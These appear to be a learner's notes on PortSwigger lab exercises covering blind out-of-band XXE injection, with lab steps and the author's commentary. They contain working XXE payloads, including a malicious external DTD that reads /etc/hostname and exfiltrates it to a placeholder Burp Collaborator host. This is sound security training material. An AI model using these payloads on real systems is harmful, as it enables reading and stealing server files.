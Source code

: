 1. Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`
3. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

Analysis:

- we proceed with same steps as above but this time we encounter a different error which is telling us that the parser is doing it s job
![[Pasted image 20240927014600.png]]
![[Pasted image 20240927014716.png]]

- we will declare and reference our entity inside of the doctype 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % nbyte SYSTEM "http://Burp-Collaborator-SubDomain"> %nbyte; ]>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```

![[Pasted image 20240927015321.png]]

- we will proceed with a DNS lookup using burp collaborator server as in above example since we are now in a out of band XXE injection.

## **5. Exploiting blind XXE to exfiltrate data using a malicious external DTD**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Place the Burp Collaborator payload into a malicious DTD file:
    `<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %stack; %exfil;`
1. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    `<!DOCTYPE test [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
7. Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the `/etc/hostname` file.
